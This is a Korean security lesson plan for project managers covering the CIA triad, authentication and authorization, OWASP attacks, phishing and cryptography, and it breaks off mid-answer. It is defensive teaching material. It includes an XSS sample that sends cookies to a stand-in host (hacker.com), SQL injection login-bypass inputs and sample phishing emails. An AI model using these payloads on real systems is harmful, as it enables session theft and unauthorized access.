




# Day 14: 정보보안 - 상세 강의안

---

## 🔁 지난 시간 복습 (5분)

> **Day 13 핵심 요점**
> 1. **OSI 7계층 순서**: 물리(1) → 데이터링크(2) → 네트워크(3) → 전송(4) → 세션(5) → 표현(6) → 응용(7)
>    - 암기법: "물데네전세표응" 또는 "Please Do Not Throw Sausage Pizza Away"
> 2. **TCP vs UDP**: TCP = 신뢰성(재전송 보장), UDP = 속도(재전송 없음). 이메일·파일=TCP, 동영상 스트리밍·게임=UDP
> 3. **HTTP vs HTTPS**: HTTPS = HTTP + TLS 암호화. 로그인·결제 등 민감 정보는 반드시 HTTPS
> 4. **DNS 역할**: 도메인(www.google.com) → IP주소(142.250.x.x)로 변환하는 인터넷 전화번호부

**오늘과의 연결:**  
"네트워크로 데이터가 전송될 때, 그 데이터가 안전한지 어떻게 보장할까요? 오늘은 **정보보안** — CIA 삼원칙, 인증·인가, 암호화, 주요 보안 취약점을 배웁니다. PM이 보안을 알면 리스크를 조기에 식별할 수 있습니다."

> 💡 **강사 안내:** "OSI 7계층을 1층부터 순서대로 말해보세요"를 2명에게 빠르게 질문

---

## ✅ 오늘 배우고 나면 할 수 있어요

- [ ] CIA 3원칙(기밀성·무결성·가용성)을 설명하고 각각의 사례를 들 수 있다
- [ ] 인증(Authentication)과 인가(Authorization)의 차이를 설명할 수 있다
- [ ] OWASP Top 10 중 SQL Injection과 XSS의 공격 방식을 이해한다
- [ ] 개인정보보호법·GDPR 등 규제가 PM 의사결정에 미치는 영향을 설명할 수 있다
- [ ] 보안 요구사항을 프로젝트 계획 초기에 포함해야 하는 이유를 설명할 수 있다

> 수업 후 이 체크리스트를 다시 보며 스스로 확인해보세요.

---

## 1교시: 정보보안 개요 (이론 + 예시 + 실습 + 퀴즈)

<div align="center">



*▲ 보안 관리 5단계 — 계획·평가·구현·모니터링·대응 + DevSecOps Shift Left*

</div>

### 이론 (50분)

#### 1. 정보보안이란?

**정의:** 정보 자산을 허가되지 않은 접근, 사용, 공개, 훼손, 변경, 파괴로부터 보호하는 활동

**정보 자산:**
- 데이터: 고객정보, 재무정보, 영업기밀
- 시스템: 서버, DB, 네트워크 장비
- 애플리케이션: 웹사이트, 모바일 앱
- 인력: 개발자, 관리자의 노하우

**PM이 보안을 알아야 하는 이유:**
- 법적 책임: 개인정보보호법 위반 시 최대 5억원 과징금
- 금전적 손실: 랜섬웨어 복구 비용, 고객 이탈
- 신뢰 붕괴: 보안 사고 후 브랜드 이미지 타격
- 서비스 중단: DDoS 공격으로 비즈니스 마비

#### 2. CIA 3대 원칙

<div align="center">



*▲ CIA Triad — 기밀성(Confidentiality) · 무결성(Integrity) · 가용성(Availability) 균형*

</div>

**A. Confidentiality (기밀성)**
- 정의: 허가된 사람만 정보에 접근
- 위협: 해킹, 내부자 유출, 이메일 오발송
- 대책: 암호화, 접근 제어, VPN, DLP
- 예: 고객 DB는 담당자만 열람, 주민번호는 마스킹

**B. Integrity (무결성)**
- 정의: 정보가 허가 없이 변경되지 않음을 보장
- 위협: SQL Injection, 해킹, 전송 중 데이터 손상
- 대책: 해시, 디지털 서명, 버전 관리, 백업
- 예: 파일 다운로드 후 해시 값 비교로 변조 확인

**C. Availability (가용성)**
- 정의: 필요할 때 정보와 시스템에 접근 가능
- 위협: DDoS 공격, 랜섬웨어, 하드웨어 장애
- 대책: 이중화, 로드 밸런싱, DDoS 방어, 백업(3-2-1 규칙)
- 예: 서버 2대로 이중화, 한 대 장애 시에도 서비스 유지

**CIA 균형:**
```
       Confidentiality
              ▲
             /  \
            /    \
           /______\
    Integrity  Availability

균형이 중요!
- 은행: 기밀성·무결성 우선 (약간의 불편 감수)
- 재난신고: 가용성 우선 (누구나 즉시 접근)
```

<div align="center">


*▲ CIA 트라이앨 보안 요소 간 균형 — 프로젝트 성격에 따라 우선순위 조정 필요*

</div>

#### 3. 인증과 인가

**Authentication (인증): "당신이 누구인가?"**
- 사용자의 신원 확인
- 방법:
  - 지식 기반: 비밀번호, PIN
  - 소유 기반: OTP, 스마트카드
  - 생체 기반: 지문, 홍채, 얼굴
- MFA (다중 인증): 2가지 이상 조합으로 보안 강화

**Authorization (인가): "무엇을 할 수 있는가?"**
- 인증된 사용자에게 권한 부여
- 모델:
  - DAC: 소유자가 권한 결정
  - MAC: 시스템이 강제로 권한 부여
  - RBAC: 역할 기반 (개발자, 관리자, 사용자)
- 원칙: 최소 권한 (업무에 필요한 최소 권한만 부여)

**비교:**
```
건물 출입 예시:
인증: 사원증 태그 → "홍길동 확인"
인가: 1-3층 출입 가능, 5층(서버실) 출입 불가
```

#### 4. 보안의 3대 영역

**기술적 보안:**
- 방화벽, IDS/IPS, 암호화, 백신
- VPN, 접근 통제 시스템

**관리적 보안:**
- 보안 정책 수립, 직원 교육
- 접근 권한 관리, 보안 감사
- 사고 대응 계획

**물리적 보안:**
- 서버실 출입 통제 (카드키, 생체 인증)
- CCTV, 환경 관리 (온도, 습도)
- UPS, 재해 대비

**통합적 접근 필요:**
```
내부자가 USB로 DB 유출 시도:

기술적: USB 포트 비활성화, DLP 솔루션
관리적: 보안 서약서, 교육, 감사
물리적: 서버실 출입 통제

→ 3대 영역이 함께 작동하여 방어!
```

### 예시 (25분)

#### 예시 1: CIA 침해 사례

**기밀성 침해:**
```
2014년 KB국민카드 개인정보 유출
- 유출: 고객 1,860만 명 정보
- 원인: 외주 직원이 USB로 무단 반출
- 피해: 과징금 43억원, 손해배상 250억원

대책:
- DB 암호화
- USB 포트 비활성화
- 최소 권한 원칙
- 외주 직원 보안 교육
```

**무결성 침해:**
```
2016년 방글라데시 중앙은행 해킹
- 사건: SWIFT 시스템 침투, 송금 지시 변조
- 손실: 8,100만 달러
- 원인: 관리자 계정 탈취, MFA 미적용

대책:
- 강력한 비밀번호 정책
- MFA 필수
- 거래 로깅 및 실시간 모니터링
- 이상 거래 탐지 시스템
```

**가용성 침해:**
```
2016년 Mirai 봇넷 DDoS 공격
- 대상: DNS 서비스 제공자 Dyn
- 방법: 해킹된 IoT 기기 10만대 이상
- 영향: Twitter, Netflix, Amazon 접속 불가

대책:
- CDN 사용 (공격 트래픽 분산)
- Auto Scaling
- Rate Limiting (IP당 요청 수 제한)
- DDoS 방어 서비스
```

#### 예시 2: 인증과 인가 설계

**시나리오: 프로젝트 관리 시스템**

| 역할 | 조회 | 작성 | 수정 | 삭제 | 승인 |
|------|------|------|------|------|------|
| PM | ✓ | ✓ | ✓ | ✓ | ✓ |
| 팀원 | ✓ | ✓ | ✓ | ✗ | ✗ |
| 관리자 | ✓ | ✗ | ✗ | ✗ | ✗ |
| 이해관계자 | ✓ | ✗ | ✗ | ✗ | ✗ |

**인증:**
- 1차: ID/비밀번호
- 2차: OTP (중요 작업 시)
- 세션 타임아웃: 30분

**인가:**
- RBAC 적용
- 최소 권한 원칙
- 권한 분기별 재검토

### 실습 (20분)

#### 실습 1: CIA 요소별 대책 작성

**과제:** 온라인 쇼핑몰 시스템의 CIA 대책을 각 2개씩 작성하세요.

<details>
<summary>해설</summary>

| CIA | 대책 1 | 대책 2 |
|-----|--------|--------|
| **기밀성** | 고객 DB 암호화 (AES-256) | 개발자는 마스킹된 데이터만 조회 |
| | 결제 정보 PCI-DSS 준수 | 접근 로그 기록 및 모니터링 |
| **무결성** | 주문 정보 해시 검증 | 중요 거래는 관리자 승인 필요 |
| | DB 변경 이력 로깅 | 일일 백업으로 복원 가능 |
| **가용성** | 웹 서버 2대 이중화 | Auto Scaling (트래픽 급증 대응) |
| | 재해 복구 센터 (다른 지역) | DDoS 방어 (CloudFlare CDN) |

</details>

#### 실습 2: 인증과 인가 구분

**과제:** 은행 ATM 사용 시나리오를 인증/인가로 구분하세요.

<details>
<summary>해설</summary>

**인증:**
1. 카드 삽입 → 카드 번호 읽기
2. PIN 입력 → 비밀번호 확인
3. 3회 오류 시 카드 잠금
→ "카드 소유자 본인인지" 신원 확인

**인가:**
인증 성공 후 가능한 작업:
- ✓ 잔액 조회 (본인 계좌)
- ✓ 출금 (일 한도 500만원)
- ✓ 송금 (일 한도 300만원)
- ✗ 타인 계좌 조회 (권한 없음)
- ✗ 한 도 초과 출금 (권한 없음)
→ "무엇을 할 수 있는지" 권한 확인

</details>

### 퀴즈 (15분)

**Q1. CIA 중 "허가된 사람만 정보에 접근"하는 것은?**
1. Confidentiality
2. Integrity
3. Availability
4. Authorization

<details>
<summary>정답</summary>
정답: 1번 Confidentiality (기밀성)
</details>

**Q2. MFA의 3가지 요소가 아닌 것은?**
1. 지식 기반 (비밀번호)
2. 소유 기반 (OTP)
3. 생체 기반 (지문)
4. 위치 기반 (GPS)

<details>
<summary>정답</summary>
정답: 4번 (전통적 MFA 3요소는 지식·소유·생체)
</details>

**Q3. CIA 3대 원칙을 각각 설명하고 실제 침해 사례를 제시하세요.**

<details>
<summary>모범 답안</summary>

**Confidentiality (기밀성):**
- 정의: 허가된 사람만 정보 접근
- 사례: 2014년 소니 픽처스 해킹 (영화 파일, 직원 정보 유출)
- 대책: 암호화, 접근 제어, VPN

**Integrity (무결성):**
- 정의: 정보가 허가 없이 변경되지 않음
- 사례: 2016년 방글라데시 은행 해킹 (거래 내역 변조, 8,100만불 손실)
- 대책: 해시, 디지털 서명, 로깅

**Availability (가용성):**
- 정의: 필요 시 시스템 접근 가능
- 사례: 2019년 Naver DDoS 공격 (포털 2시간 마비)
- 대책: 이중화, DDoS 방어, 백업

</details>

---

## 2교시: 주요 보안 위협 및 공격 유형 (이론 + 예시 + 실습 + 퀴즈)

### 이론 (50분)

#### 1. 네트워크 공격

**A. DDoS (Distributed Denial of Service)**
- 정의: 다수의 좀비 PC로 동시 공격하여 서비스 마비
- 방법: 대량 트래픽으로 서버 과부하
- 피해: 웹사이트 접속 불가, 비즈니스 중단
- 대응: CDN, Rate Limiting, Auto Scaling

**B. MITM (Man-in-the-Middle)**
- 정의: 통신 중간에 개입하여 데이터 가로채기/변조
- 사례: 공공 Wi-Fi에서 로그인 정보 탈취
- 대응: HTTPS, VPN, 인증서 검증

**C. 스니핑 (Sniffing)**
- 정의: 네트워크 패킷을 감청하여 정보 수집
- 도구: Wireshark
- 대응: 암호화 (TLS/SSL), 스위치 사용

**D. 스푸핑 (Spoofing)**
- IP 스푸핑: 출발지 IP 위조
- ARP 스푸핑: MAC 주소 위조하여 트래픽 가로채기
- DNS 스푸핑: 가짜 DNS 응답으로 피싱 사이트 유도

#### 2. 웹 애플리케이션 공격 (OWASP Top 10)

<div align="center">



*▲ OWASP Top 10 (2021) — 가장 위험한 웹 보안 취약점 10선 + PM 보안 체크리스트*

</div>

**A. SQL Injection**
```sql
-- 정상 쿼리
SELECT * FROM users WHERE id='user1' AND pw='pass123'

-- 공격 (입력: ' OR '1'='1)
SELECT * FROM users WHERE id='' OR '1'='1' AND pw=''
→ 항상 참, 모든 사용자 정보 유출
```
- 대응: Parameterized Query, ORM 사용, 입력 검증

**B. XSS (Cross-Site Scripting)**
```html
<!-- 정상 댓글 -->
좋은 글이네요!

<!-- 악성 스크립트 삽입 -->
<script>
  document.location='http://hacker.com/steal?cookie='+document.cookie
</script>
```
- 대응: 입력 이스케이핑, Content Security Policy (CSP)

**C. CSRF (Cross-Site Request Forgery)**
```html
<!-- 피해자가 로그인한 상태에서 이 링크 클릭 시 -->

→ 의도하지 않은 송금 실행
```
- 대응: CSRF 토큰, SameSite 쿠키 속성

**D. 파일 업로드 취약점**
- 악성 파일 (shell.php) 업로드 → 서버 장악
- 대응: 파일 확장자 화이트리스트, 업로드 폴더 실행 권한 제거

#### 3. 악성코드

**A. 랜섬웨어**
- 파일 암호화 후 금전 요구
- 사례: 2017년 WannaCry (전 세계 30만대 감염)
- 대응: 정기 백업 (3-2-1 규칙), 보안 패치, 백신

**B. 트로이목마**
- 정상 프로그램으로 위장
- 백도어 설치하여 원격 제어
- 대응: 신뢰할 수 있는 출처에서만 다운로드

**C. 키로거**
- 키보드 입력 기록하여 비밀번호 탈취
- 대응: 가상 키보드, 백신, OTP

#### 4. 사회공학 (Social Engineering)

**A. 피싱 (Phishing)**
```
이메일 제목: [긴급] 계정 보안 문제 발견
발신: noreply@bankkk.com (은행 위장)
내용: "24시간 내 로그인하여 인증하지 않으면 계정 정지"
링크: http://bankk-login.com (가짜 사이트)

→ 가짜 사이트에서 ID/PW 입력 시 탈취
```

**B. 스피어 피싱 (Spear Phishing)**
- 특정 개인/조직을 타깃으로 맞춤형 공격
- 사례: "김 대리님, 어제 회의 자료입니다" (실제 회의 내용 언급)

**C. 스미싱 (Smishing)**
- SMS를 통한 피싱
- "택배 배송 확인: http://xxx" → 악성앱 설치

**D. 보이스 피싱**
- 금융기관/검찰 사칭
- "보이스피싱 피해 예방을 위해 계좌번호 확인 필요"

**대응:**
- 직원 보안 교육 (정기)
- 피싱 모의 훈련
- 의심스러운 링크 클릭 금지
- 공식 채널로 확인

### 예시 (25분)

#### 예시 1: SQL Injection 공격 시나리오

**취약한 코드:**
```php
$id = $_POST['id'];
$pw = $_POST['pw'];
$query = "SELECT * FROM users WHERE id='$id' AND pw='$pw'";
$result = mysqli_query($conn, $query);
```

**공격:**
```
입력 ID: admin' --
입력 PW: (아무거나)

실제 쿼리:
SELECT * FROM users WHERE id='admin' --' AND pw='xxx'
→ -- 이후는 주석 처리, 비밀번호 검증 우회
```

**안전한 코드:**
```php
$stmt = $conn->prepare("SELECT * FROM users WHERE id=? AND pw=?");
$stmt->bind_param("ss", $id, $pw);
$stmt->execute();
→ Parameterized Query로 SQL Injection 방지
```

#### 예시 2: 피싱 이메일 식별

**의심 포인트:**
1. 발신자: noreply@paypa1.com (l을 1로 위장)
2. 긴급성 강조: "24시간 내", "계정 정지"
3. 링크: http://payppal-login.com (오타)
4. 문법 오류: "귀하의 계정이 문제가 있습니다"
5. 개인정보 요구: "아래 링크에서 재인증 필요"

**대응:**
- 링크 클릭하지 않고 공식 앱/웹사이트로 직접 접속
- 고객센터에 전화로 확인
- 의심 이메일은 스팸 신고

### 실습 (20분)

#### 실습 1: 웹 공격 유형 분류 및 방어

**과제:** SQL Injection, XSS, CSRF의 차이와 방어 방법을 정리하세요.

<details>
<summary>해설</summary>

| 공격 | 목표 | 방법 | 방어 |
|------|------|------|------|
| **SQL Injection** | DB 직접 공격 | SQL 쿼리에 악성 코드 삽입 | Parameterized Query |
| | | 입력: ' OR '1'='1 | ORM 사용 |
| | | → 인증 우회, 데이터 유출 | 입력 검증 |
| **XSS** | 다른 사용자 공격 | 악성 스크립트 삽입 | 입력 이스케이핑 |
| | | 댓글에 `<script>` 삽입 | CSP 헤더 |
| | | → 쿠키 탈취, 세션 하이재킹 | HttpOnly 쿠키 |
| **CSRF** | 사용자 권한 도용 | 사용자가 의도하지 않은 요청 | CSRF 토큰 |
| | | 로그인 상태에서 악성 링크 | SameSite 쿠키 |
| | | → 송금, 비밀번호 변경 | Referer 검증 |

</details>

#### 실습 2: 사회공학 대응 체크리스트

**과제:** 피싱 이메일 대응 체크리스트 5가지를 작성하세요.

<details>
<summary>해설</summary>

**피싱 대응 체크리스트:**

1. **발신자 확인**
   - 도메인이 공식 도메인인가? (naver.com vs navver.com)
   - 이메일 주소가 의심스러운가?

2. **긴급성 의심**
   - "24시간 내", "즉시", "계정 정지" 등 압박하는가?
   - 실제 금융기관은 이메일로 긴급 조치 요구 안 함

3. **링크 확인**
   - 마우스 오버 시 실제 URL이 다른가?
   - 짧은 URL (bit.ly) 사용하는가?
   - → 클릭하지 말고 공식 사이트로 직접 이동

4. **개인정보 요구**
   - 이메일에서 직접 비밀번호, 계좌번호 요구하는가?
   - → 절대 입력하지 않음

5. **검증**
   - 의심되면 고객센터에 전화로 확인
   - IT 팀/보안팀에 신고

**조직 차원:**
- 월 1회 피싱 모의 훈련
- 의심 이메일 신고 절차 수립
- 신고자 포상 제도

</details>

### 퀴즈 (15분)

**Q1. SQL Injection 공격의 원리는?**
1. 네트워크 패킷 가로채기
2. SQL 쿼리에 악성 코드 삽입
3. 대량 트래픽으로 서버 마비
4. 피싱 이메일 발송

<details>
<summary>정답</summary>
정답: 2번 (입력값에 SQL 코드를 삽입하여 DB를 직접 공격)
</details>

**Q2. DDoS 공격의 목적은?**
1. 데이터 유출
2. 서비스 가용성 침해
3. 비밀번호 탈취
4. 악성코드 설치

<details>
<summary>정답</summary>
정답: 2번 (대량 트래픽으로 서버를 마비시켜 서비스 중단)
</details>

**Q3. OWASP Top 10 중 3가지와 각각의 대응 방법을 서술하세요.**

<details>
<summary>모범 답안</summary>

**1. SQL Injection:**
- 공격: SQL 쿼리에 악성 코드 삽입하여 DB 직접 공격
- 예: 입력값 `' OR '1'='1` → 인증 우회
- 대응:
  - Parameterized Query/Prepared Statement 사용
  - ORM (Hibernate, Entity Framework) 활용
  - 입력 검증 (화이트리스트 방식)
  - 최소 권한 DB 계정 사용

**2. XSS (Cross-Site Scripting):**
- 공격: 악성 스크립트를 웹 페이지에 삽입
- 예: 댓글에 `<script>alert('XSS')</script>` 삽입
- 대응:
  - 사용자 입력 이스케이핑 (`<` → `&lt;`)
  - Content Security Policy (CSP) 헤더
  - HttpOnly 쿠키 (JavaScript 접근 차단)
  - 입력 sanitization

**3. CSRF (Cross-Site Request Forgery):**
- 공격: 사용자 권한을 도용하여 의도하지 않은 요청
- 예: 로그인 상태에서 악성 링크 클릭 → 자동 송금
- 대응:
  - CSRF 토큰 (각 요청마다 고유 토큰 생성·검증)
  - SameSite 쿠키 속성 (Same-Site=Strict)
  - Referer 헤더 검증
  - 중요 작업은 재인증 요구

**PM의 역할:**
- 요구사항 단계에 보안 점검 항목 포함
- 개발팀에 시큐어 코딩 교육
- 취약점 스캔 도구 (SAST/DAST) 예산 확보
- 배포 전 보안 테스트 일정 확보

</details>

---

<div align="center">


*▲ 암호화 기술이 CIA 3원칙을 학습적으로 지원하는 방식 — 대칭키/비대칭키, 해시, 전자서명*

</div>

## 3교시: 암호화 및 인증 기술 (이론 + 예시 + 실습 + 퀴즈)

<div align="center">



*▲ 대칭키 · 비대칭키 · 해시 함수 비교 — TLS는 세 방식을 결합하여 HTTPS를 구현*

</div>

### 이론 (50분)

#### 1. 암호화 개요

**암호화 (Encryption):** 평문을 암호문으로 변환하여 기밀성 보장
**복호화 (Decryption):** 암호문을 평문으로 복원

#### 2. 대칭키 암호화 (Symmetric Encryption)

**정의:** 암호화와 복호화에 **같은 키** 사용

**알고리즘:**
- DES (Data Encryption Standard): 56bit 키, 현재는 취약
- 3DES: DES를 3번 적용
- **AES (Advanced Encryption Standard)**: 128/192/256bit, 현재 표준

**장점:**
- 빠른 속도 (대용량 데이터 암호화에 적합)
- 낮은 연산 비용

**단점:**
- 키 배포 문제 (안전하게 키를 전달하기 어려움)
- 키 관리 복잡 (N명이면 N(N-1)/2개 키 필요)

**사용 사례:**
- 파일 암호화
- DB 암호화
- VPN (IPsec)
- 디스크 암호화 (BitLocker)

#### 3. 비대칭키 암호화 (Asymmetric Encryption)

**정의:** 암호화와 복호화에 **다른 키** 사용
- 공개키 (Public Key): 누구나 알 수 있음, 암호화 용도
- 개인키 (Private Key): 본인만 보관, 복호화 용도

**알고리즘:**
- **RSA**: 가장 널리 사용, 2048bit 권장
- ECC (Elliptic Curve Cryptography): 짧은 키로 높은 보안

**동작 원리:**
```
1. Bob이 공개키·개인키 쌍 생성
2. Bob이 공개키를 Alice에게 전달
3. Alice가 Bob의 공개키로 암호화
4. Bob이 자신의 개인키로 복호화

→ 공개키는 공개되어도 안전 (개인키로만 복호화 가능)
```

**장점:**
- 키 배포 문제 해결 (공개키는 공개 가능)
- 디지털 서명 가능

**단점:**
- 느린 속도 (대칭키의 1/1000)
- 높은 연산 비용

**사용 사례:**
- SSL/TLS (하이브리드 방식)
- 디지털 서명
- 이메일 암호화 (PGP)
- SSH

#### 4. 하이브리드 암호화

**HTTPS 동작 원리:**
```
1. 핸드셰이크 (비대칭키 사용):
   - 서버가 공개키를 클라이언트에 전송
   - 클라이언트가 대칭키(세션키) 생성
   - 서버 공개키로 세션키 암호화하여 전송
   - 서버가 개인키로 세션키 복호화

2. 데이터 전송 (대칭키 사용):
   - 세션키로 모든 데이터 암호화/복호화
   - 빠른 속도 유지

→ 비대칭키의 안전성 + 대칭키의 속도
```

#### 5. 해시 함수 (Hash Function)

**정의:** 임의 길이 데이터 → 고정 길이 해시값 변환

**특징:**
- 단방향 (역변환 불가)
- 눈사태 효과 (입력 1bit 변경 → 출력 50% 이상 변경)
- 충돌 저항성 (서로 다른 입력이 같은 출력을 내기 어려움)

**알고리즘:**
- MD5: 128bit, 현재는 취약 (충돌 발견됨)
- **SHA-256**: 256bit, 현재 표준 (Bitcoin도 사용)
- **bcrypt**: 비밀번호 저장 전용, salt+느린 속도로 brute force 방어

**사용 사례:**

**A. 무결성 검증:**
```
파일 다운로드:
원본 파일의 SHA-256: a3f5b9...
다운로드 후 해시 계산: a3f5b9...
→ 일치하면 변조 없음
```

**B. 비밀번호 저장:**
```
✗ 나쁜 예: DB에 평문 저장
  INSERT INTO users VALUES ('admin', 'password123')
  → DB 유출 시 모든 비밀번호 노출

✓ 좋은 예: bcrypt로 해시 저장
  bcrypt('password123', salt) → $2a$10$N9qo8uLO...
  → 원본 비밀번호 복원 불가
```

#### 6. 디지털 서명

**목적:**
- 무결성: 문서가 변조되지 않았음을 보장
- 부인방지: 서명자가 나중에 부인할 수 없음
- 인증: 서명자의 신원 확인

**동작:**
```
1. 서명 생성:
   문서 → 해시 → 개인키로 암호화 = 디지털 서명

2. 서명 검증:
   서명 → 공개키로 복호화 = 해시1
   문서 → 해시 = 해시2
   해시1 == 해시2 → 검증 성공
```

**사용 사례:**
- 전자계약
- 소프트웨어 배포 (코드 서명)
- 이메일 (S/MIME)

#### 7. PKI (Public Key Infrastructure)

**인증서 (Certificate):**
- 공개키 + 소유자 정보 + CA 서명
- 웹 사이트의 공개키가 진짜인지 보증

**CA (Certificate Authority):**
- 인증서 발급 기관
- 예: Let's Encrypt, DigiCert, VeriSign

**HTTPS 인증서 검증:**
```
브라우저 → https://example.com 접속
1. 서버가 인증서 전송
2. 브라우저가 인증서 검증:
   - CA 서명 확인 (CA 공개키로 검증)
   - 도메인 일치 확인
   - 유효기간 확인
3. 검증 성공 → 안전한 연결 (자물쇠 아이콘)
```

### 예시 (25분)

#### 예시 1: 비밀번호 안전 저장

**취약한 방법:**
```sql
-- 평문 저장
INSERT INTO users VALUES ('hong', 'pass123');
→ DB 유출 시 모든 비밀번호 노출
```

**개선 1: 단순 해시**
```python
import hashlib
pw_hash = hashlib.sha256('pass123'.encode()).hexdigest()
# → 'ef92b...'
→ 문제: Rainbow Table 공격 (미리 계산된 해시 테이블)
```

**개선 2: Salt 추가**
```python
import os, hashlib
salt = os.urandom(16)  # 무작위 salt
pw_hash = hashlib.sha256(salt + 'pass123'.encode()).hexdigest()
# DB에 salt와 hash 함께 저장
→ 사용자마다 다른 salt → Rainbow Table 무력화
```

**최선: bcrypt (권장)**
```python
import bcrypt
pw_hash = bcrypt.hashpw('pass123'.encode(), bcrypt.gensalt())
# → '$2b$12$KIXxKv...'

# 검증
bcrypt.checkpw('pass123'.encode(), pw_hash)  # True
→ salt 자동 생성, 의도적으로 느린 알고리즘 (brute force 방어)
```

#### 예시 2: HTTPS 통신 과정

```
1. TCP 연결 (3-way handshake)

2. TLS 핸드셰이크:
   Client → Server: "TLS 연결 요청, 지원 암호 알고리즘"
   Server → Client: 인증서 (공개키 포함)
   Client: 인증서 검증
   Client → Server: 세션키(대칭키)를 서버 공개키로 암호화하여 전송
   Server: 개인키로 세션키 복호화
   
3. 데이터 전송:
   이후 모든 데이터는 세션키(AES)로 암호화
   
→ 중간자가 패킷을 가로채도 복호화 불가
→ 주소창에 자물쇠 아이콘 표시
```

### 실습 (20분)

#### 실습 1: 대칭키 vs 비대칭키 비교

<details>
<summary>해설</summary>

| 구분 | 대칭키 | 비대칭키 |
|------|--------|---------|
| **키** | 암호화·복호화 동일 | 공개키(암호화)·개인키(복호화) |
| **알고리즘** | AES, DES, 3DES | RSA, ECC |
| **속도** | 빠름 (1,000배) | 느림 |
| **키 배포** | 어려움 (안전한 전달 필요) | 쉬움 (공개키는 공개 가능) |
| **키 개수** | N명: N(N-1)/2개 | N명: N개 (각자 1쌍) |
| **사용** | 대용량 데이터 | 키 교환, 디지털 서명 |
| **예시** | VPN, DB 암호화 | HTTPS, 전자서명, SSH |

**하이브리드 방식:**
- 비대칭키로 대칭키를 안전하게 교환
- 대칭키로 실제 데이터 암호화
- HTTPS, SSH가 이 방식 사용

</details>

#### 실습 2: MFA 적용 시나리오

**과제:** 온라인 뱅킹에 적용할 MFA 시나리오를 설계하세요.

<details>
<summary>해설</summary>

**Level 1: 로그인 (2-Factor)**
1. 지식: ID + 비밀번호
2. 소유: OTP (Google Authenticator)

**Level 2: 송금 (3-Factor)**
1. 지식: 비밀번호 재입력
2. 소유: SMS 인증 코드
3. 생체: 지문 또는 얼굴 인식 (모바일 앱)

**Level 3: 고액 송금 (추가 인증)**
- 500만원 초과 시:
  - ARS 전화 인증
  - 보안 카드 번호 2개

**백업 방법:**
- OTP 분실 시: 백업 코드 10개 (인쇄하여 보관)
- 휴대폰 분실 시: 영업점 방문 + 신분증 확인

**PM 고려사항:**
- 보안과 편의성 균형
- 일반 조회는 비밀번호만
- 중요 작업만 추가 인증
- 고령자를 위한 대체 인증 방법 (ARS)

</details>

### 퀴즈 (15분)

**Q1. 대칭키 암호화의 단점은?**
1. 속도가 느림
2. 키 배포 문제
3. 보안이 약함
4. 구현이 어려움

<details>
<summary>정답</summary>
정답: 2번 (안전하게 키를 전달하기 어려움)
</details>

**Q2. 해시 함수의 용도가 아닌 것은?**
1. 비밀번호 저장
2. 파일 무결성 검증
3. 데이터 복호화
4. 디지털 서명 생성

<details>
<summary>정답</summary>
정답: 3번 (해시는 단방향이라 복호화 불가)
</details>

**Q3. 대칭키와 비대칭키 암호화를 비교하고, HTTPS에서 두 가지를 어떻게 활용하는지 설명하세요.**

<details>
<summary>모범 답안</summary>

**대칭키 암호화:**
- 암호화·복호화에 같은 키 사용
- 장점: 빠른 속도 (대용량 데이터 처리)
- 단점: 키 배포 문제 (안전한 전달 어려움)
- 알고리즘: AES-256

**비대칭키 암호화:**
- 공개키(암호화)·개인키(복호화) 쌍 사용
- 장점: 키 배포 쉬움 (공개키는 공개 가능)
- 단점: 느린 속도 (대칭키의 1/1000)
- 알고리즘: RSA-2048

